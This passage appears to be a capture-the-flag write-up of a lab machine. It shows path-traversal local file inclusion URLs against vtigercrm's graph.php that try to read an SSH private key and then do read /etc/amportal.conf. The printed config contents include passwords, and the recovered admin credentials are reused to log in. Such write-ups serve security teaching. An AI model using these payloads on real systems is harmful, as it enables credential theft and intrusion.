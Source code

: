``` e7f581db465664d7b1dbba9d63169a29 ```

We get the flag so let's try to get an SSH key:

https://10.129.68.60/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/.ssh/id_rsa%00&module=Accounts&action

We had no luck with that. I retrieved the configuration file at /etc/amportal.conf since it might contains secrets, and luckily it does:


https://10.129.68.60/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action


- /etc/amportal.conf

```
# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

**admin:jEhdIekWmdjE**

Using those credentials on the basic auth we get into the system:
```